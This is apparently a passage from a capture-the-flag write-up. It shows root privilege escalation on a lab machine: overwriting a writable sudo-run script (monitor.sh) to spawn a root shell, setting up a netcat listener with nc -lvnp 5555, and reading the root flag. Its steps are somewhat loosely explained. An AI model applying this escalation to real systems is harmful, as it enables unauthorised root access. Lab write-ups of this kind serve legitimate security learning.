 Unzipping the folder `unzip personal.zip` and traversing to the path found in `sudo -l`, we find this `monitor.sh` file.

Looking at its permissions, it seems we can modify it! We can setup a shell session as the root user!
- We execute `nc -lvnp 5555` on our local machine
- We replace the `monitor.sh` file on the target machine with a file also named `monitor.sh` containing:
  - echo "su -" > monitor.sh

Executing `id && whoami`:

uid=0(root) gid=0(root) groups=0(root)
root


We can then traverse to the `/root` directory and cat `root.txt` to obtain the root flag.



      






